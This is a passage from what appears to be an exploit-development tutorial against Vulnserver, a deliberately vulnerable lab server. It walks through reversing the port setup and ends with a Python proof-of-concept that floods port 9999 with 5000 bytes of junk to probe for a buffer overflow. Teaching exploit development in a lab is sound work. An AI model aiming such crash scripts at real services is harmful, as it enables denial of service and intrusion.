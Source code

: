```c
INT WSAAPI getaddrinfo(
  PCSTR           pNodeName,
  PCSTR           pServiceName,
  const ADDRINFOA *pHints,
  PADDRINFOA      *ppResult
);
```

<p align="justify">
As we see above, the second argument is a pointer to a NULL-terminated ANSI string that contains either a service name or port number which is represented as a string.
</p>

<p align="justify">
Similar information regarding the port number we also get from the <code><b>ntohs</b></code> function, which,  in general terms and according to MSDN, converts a <code><b>u_short</b></code> from TCP/IP network byte order to host byte order (which is little-endian on Intel processors). The <code><b>ntohs</b></code> function can be used to convert an IP port number in network byte order to the IP port number in host byte order. Following, is the prototype of the <code><b>ntohs</b></code> function
</p>


```c
u_short ntohs(
  u_short netshort
);
```

<p align="justify">
Now that we got this information, we can confirm that the server listens on port <code><b>9999</b></code>. As we see below, we are running netcat tool to connect to port <code><b>9999</b></code></p>

<script id="asciicast-mkwzV0kymb3F0BmRStGe45boN" style="display: block;margin-left: auto;margin-right: auto;" src="https://asciinema.org/a/mkwzV0kymb3F0BmRStGe45boN.js" async></script>

<p align="justify">
As we see, there are some commands used by the vulnserver that should be investigated more. At this point we will perform some research regarding the functionality of the vulnserver. We will be using the following poc script in order to send some junk data to the vulnserver.   

</p>

```python 
#!/usr/bin/python

import os
import sys
import socket

host = "192.168.201.9"
port = 9999

buffer = "A"*5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print "[*] Sending exploit..."
s.send(buffer)
print s.recv(1024)
s.close()
```
